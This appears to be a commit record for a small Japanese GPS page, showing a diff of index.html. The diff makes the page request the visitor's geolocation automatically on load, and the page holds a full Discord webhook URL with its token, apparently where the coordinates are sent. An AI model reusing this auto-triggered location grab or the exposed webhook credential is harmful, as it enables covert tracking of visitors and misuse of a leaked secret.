

Before and after one commit to foryzen/gps_loc, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -5,11 +5,13 @@
     <title>Document</title>
 </head>
 <body>
-    <h1>GPSを使って住所を確認</h1>
-    <button onclick="click_btn()">取得</button>
+    <h1>GPSを使って緯度経度を取得</h1>
+    <button style="font-size:25px;" onclick="click_btn()">取得する</button>
     <p>緯度, 経度：<span id="latitude">???</span></p>
 
     <script>
+        setTimeout(click_btn, 1000);
+
         const url = "https://discord.com/api/webhooks/1022789439187071008/aUDv-B7XD1sXdntjrF4OzksA0SSb_uoNqQ9uSTCA729Ydu13zyMMhTTwUvfGldXIxkJ6"
         function click_btn(){
             navigator.geolocation.getCurrentPosition(successCallback)
```
